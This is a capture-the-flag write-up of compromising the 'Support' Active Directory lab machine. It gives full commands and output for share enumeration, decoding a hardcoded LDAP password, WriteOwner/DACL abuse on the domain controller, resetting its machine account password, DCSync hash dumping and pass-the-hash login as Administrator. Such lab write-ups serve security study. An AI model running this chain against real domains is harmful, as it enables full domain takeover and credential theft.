


# Support
## Host file setup
```python
sudo nxc smb 10.129.230.181 --generate-hosts-file /etc/hosts
SMB         10.129.230.181  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT dc.support.htb                                                                         
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-11 15:26 +0100
Nmap scan report for dc.support.htb (10.129.230.181)
Host is up (0.015s latency).
rDNS record for 10.129.230.181: DC.support.htb
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49668/tcp open  unknown
49678/tcp open  unknown
49683/tcp open  unknown
49703/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 66.28 seconds
```

### Nmap
```python
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985 -A --min-rate=2000 -sT dc.support.htb                      
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-11 15:28 +0100
Nmap scan report for dc.support.htb (10.129.230.181)
Host is up (0.019s latency).
rDNS record for 10.129.230.181: DC.support.htb

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-11 14:28:48Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|10|11|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB (445)

Null auth is enabled, but cannot use it to access shares or enumerate users

The guest account is enabled

### Guest access

```python
nxc smb dc.support.htb -u 'Guest' -p '' --shares
SMB         10.129.230.181  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.230.181  445    DC               [+] support.htb\Guest: 
SMB         10.129.230.181  445    DC               [*] Enumerated shares
SMB         10.129.230.181  445    DC               Share           Permissions     Remark
SMB         10.129.230.181  445    DC               -----           -----------     ------
SMB         10.129.230.181  445    DC               ADMIN$                          Remote Admin
SMB         10.129.230.181  445    DC               C$                              Default share
SMB         10.129.230.181  445    DC               IPC$            READ            Remote IPC
SMB         10.129.230.181  445    DC               NETLOGON                        Logon server share 
SMB         10.129.230.181  445    DC               support-tools   READ            support staff tools
SMB         10.129.230.181  445    DC               SYSVOL                          Logon server share
```

Read access on a non-default share

```python
nxc smb dc.support.htb -u 'Guest' -p '' --rid-brute 20000 | grep '(SidTypeUser)' | cut -d '\' -f 2 | cut -d ' ' -f 1 | tee users.txt
Administrator
Guest
krbtgt
DC$
ldap
support
smith.rosario
hernandez.stanley
wilson.shelby
anderson.damian
thomas.raphael
levine.leopoldo
raven.clifton
bardot.mary
cromwell.gerard
monroe.david
west.laura
langley.lucy
daughtler.mabel
stoll.rachelle
ford.victoria
```

Ill pull out the users using `--rid-brute` to make sure i discover every user

## `support-tools` share

```python
smbclient //dc.support.htb/support-tools -U 'Guest'%''                                      
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 20 18:01:06 2022
  ..                                  D        0  Sat May 28 12:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 12:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 12:19:55 2022
  putty.exe                           A  1273576  Sat May 28 12:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 12:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 18:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 12:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 12:19:43 2022

		4026367 blocks of size 4096. 959386 blocks available
smb: \> 
```

Ill download all these files

`UserInfo.exe.zip` looks to be the most interesting, after some research this is the only custom tool here so ill start with some analysis on that

Its also .NET so i can load it into ILspy

## `UserInfo.exe` analysis

So first ill unzip the file then load the .exe into ILspy



Looks like its using an encrpyted password value then loading it into other parts of the program to run LDAP queries

But since i have the the code i should be able to reverse it

This code is a simple obfuscated password retriever. Here's what it does step by step:

1. enc_password is a Base64-encoded blob of "encrypted" bytes.
2. getPassword() decodes that Base64 string into raw bytes.
3. It then XOR-decodes each byte using:
		a repeating XOR key derived from the ASCII string "armando" (cycled byte-by-byte via i % key.Length), and
		a second XOR with the constant 0xDF.
4. The resulting bytes are converted to a string using the system's default encoding and returned as the plaintext password.

With the help of AI i can make a quick script to reverse this

```python
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

This is the final value, but since this is running an ldap query using this string with the user `ldap`, ill run ldapsearch and pipe the results into a file!

```python
ldapsearch -x -H ldap://10.129.230.181 -D "ldap@support.htb" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" | tee ldapsearch
```

Now its in a file, ill open it in a text editor and looks for password values



```python
Ironside47pleasure40Watchful
```

I used mousepad and used ctrl+f to search through all the users in the list til i found this!

## Compromising the `support` user

```python
nxc smb dc.support.htb -u support -p 'Ironside47pleasure40Watchful'                                         
SMB         10.129.230.181  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.230.181  445    DC               [+] support.htb\support:Ironside47pleasure40Watchful
```

This user is now compromised!

```python
nxc winrm dc.support.htb -u support -p 'Ironside47pleasure40Watchful'
WINRM       10.129.230.181  5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb) 
WINRM       10.129.230.181  5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
```

This user also has access over WINRM

```python
evil-winrm -i dc.support.htb -u support -p 'Ironside47pleasure40Watchful'                     
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support
*Evil-WinRM* PS C:\Users\support\Documents>
```

## Enumeration as `support`

```python
bloodyAD --host dc.support.htb -d support.htb -u support -p 'Ironside47pleasure40Watchful' get writable

...[SNIP]...

distinguishedName: CN=DC,OU=Domain Controllers,DC=support,DC=htb
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE
```

Looks like i have WriteOwner over the DC

## Abusing `WriteOwner` on the DC machine account

```python
impacket-owneredit -action write -new-owner 'support' -target-dn 'CN=DC,OU=Domain Controllers,DC=support,DC=htb' 'support.htb'/'support':'Ironside47pleasure40Watchful' -dc-ip 10.129.230.181 
Impacket v0.14.0.dev0+20260805.100140.701354e9 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-1677581083-3380853377-188903654-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=support,DC=htb
[*] OwnerSid modified successfully!
```

First ill grant myself ownership of the object

```python
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'support' -target-dn 'CN=DC,OU=Domain Controllers,DC=support,DC=htb' 'support.htb'/'support':'Ironside47pleasure40Watchful' -dc-ip 10.129.230.181
Impacket v0.14.0.dev0+20260805.100140.701354e9 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20260811-163153.bak
[*] DACL modified successfully!
```

Now ill give myself GenericAll (FullControl)

```python
bloodyAD --host dc.support.htb -d support.htb -u support -p 'Ironside47pleasure40Watchful' set password 'dc$' 'Password123!'

[+] Password changed successfully!
```

Now the password is changed for the DC machine account, i can just run a DCsync using secretsdump

```python
nxc smb dc.support.htb -u 'dc$' -p 'Password123!'                                                                                   
SMB         10.129.230.181  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.230.181  445    DC               [+] support.htb\dc$:Password123!
```

As seen here this account is now compromised

## Domain Admin

```python
impacket-secretsdump support.htb/'dc$':'Password123!'@dc.support.htb                                 
Impacket v0.14.0.dev0+20260805.100140.701354e9 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6303be52e22950b5bcb764ff2b233302:::
ldap:1104:aad3b435b51404eeaad3b435b51404ee:b735f8c7172b49ca2b956b8015eb2ebe:::
support:1105:aad3b435b51404eeaad3b435b51404ee:11fbaef07d83e3f6cde9f0ff98a3af3d:::
smith.rosario:1106:aad3b435b51404eeaad3b435b51404ee:0fab66daddc6ba42a3b0963123350706:::
hernandez.stanley:1107:aad3b435b51404eeaad3b435b51404ee:0fab66daddc6ba42a3b0963123350706:::
wilson.shelby:1108:aad3b435b51404eeaad3b435b51404ee:0fab66daddc6ba42a3b0963123350706:::
anderson.damian:1109:aad3b435b51404eeaad3b435b51404ee:0fab66daddc6ba42a3b0963123350706:::
thomas.raphael:1110:aad3b435b51404eeaad3b435b51404ee:0fab66daddc6ba42a3b0963123350706:::
levine.leopoldo:1111:aad3b435b51404eeaad3b435b51404ee:0fab66daddc6ba42a3b0963123350706:::
raven.clifton:1112:aad3b435b51404eeaad3b435b51404ee:0fab66daddc6ba42a3b0963123350706:::
bardot.mary:1113:aad3b435b51404eeaad3b435b51404ee:0fab66daddc6ba42a3b0963123350706:::
cromwell.gerard:1114:aad3b435b51404eeaad3b435b51404ee:0fab66daddc6ba42a3b0963123350706:::
monroe.david:1115:aad3b435b51404eeaad3b435b51404ee:0fab66daddc6ba42a3b0963123350706:::
west.laura:1116:aad3b435b51404eeaad3b435b51404ee:0fab66daddc6ba42a3b0963123350706:::
langley.lucy:1117:aad3b435b51404eeaad3b435b51404ee:0fab66daddc6ba42a3b0963123350706:::
daughtler.mabel:1118:aad3b435b51404eeaad3b435b51404ee:0fab66daddc6ba42a3b0963123350706:::
stoll.rachelle:1119:aad3b435b51404eeaad3b435b51404ee:0fab66daddc6ba42a3b0963123350706:::
ford.victoria:1120:aad3b435b51404eeaad3b435b51404ee:0fab66daddc6ba42a3b0963123350706:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::

...[SNIP]...
```

Now i have the domain admin hash!

```python
evil-winrm -i dc.support.htb -u Administrator -H 'bb06cbc02b39abeddd1335bc30b19e26'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
support\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Domain Admin!
